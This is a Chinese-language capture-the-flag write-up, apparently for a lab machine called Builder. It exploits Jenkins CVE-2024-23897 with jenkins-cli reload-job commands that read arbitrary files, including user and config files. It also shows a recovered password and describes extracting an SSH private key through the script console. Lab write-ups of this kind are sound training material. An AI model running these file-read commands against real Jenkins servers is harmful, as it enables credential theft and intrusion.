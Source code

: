 ```yaml
---

---
```




# nmap

![image-20250407102020194](Builder/image-20250407102020194.png)

# 8080端口

左下角有版本信息，搜索到该版本存在本地文件读取漏洞

![image-20250407112131730](Builder/image-20250407112131730.png)

## dirsearch

![image-20250407102039160](Builder/image-20250407102039160.png)

/api下还有一些目录，但都没有有用信息

![image-20250407112236007](Builder/image-20250407112236007.png)

## cve-2024-23897

先从靶机下载jar包

```
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
```

读取敏感目录，得到jenkins用户目录在`/var/jenkins_home`下

![image-20250407111931155](Builder/image-20250407111931155.png)

那么可以直接读取到user.txt

![image-20250407112551284](Builder/image-20250407112551284.png)

### 目录结构

![img](Builder/1850f94518a54a9cae64391e7440ef97.png)

![img](Builder/c46faf29e7954de881ea8a0d8c569c15.png)

#### user.xml

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 -http reload-job "@/var/jenkins_home/users/users.xml"
```

![image-20250407114855940](Builder/image-20250407114855940.png)

#### /jennifer_12108429903186576833/config.xml

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 -http reload-job "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
```

![image-20250407114840670](Builder/image-20250407114840670.png)

![image-20250407114809848](Builder/image-20250407114809848.png)

```
jennifer:princess
```

#### 登录到jenkins

![image-20250407115846307](Builder/image-20250407115846307.png)

但是私钥还是隐藏的，在源码中发现了隐藏的私钥，是base64加密的

![image-20250407121222159](Builder/image-20250407121222159.png)

[jenkins：利用script console - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/376186.html)

该文章中有解密函数的使用，对该段进行解密即可得到私钥，使用私钥进行ssh连接，将权限设置为600，然后连接

![image-20250407130315077](Builder/image-20250407130315077.png)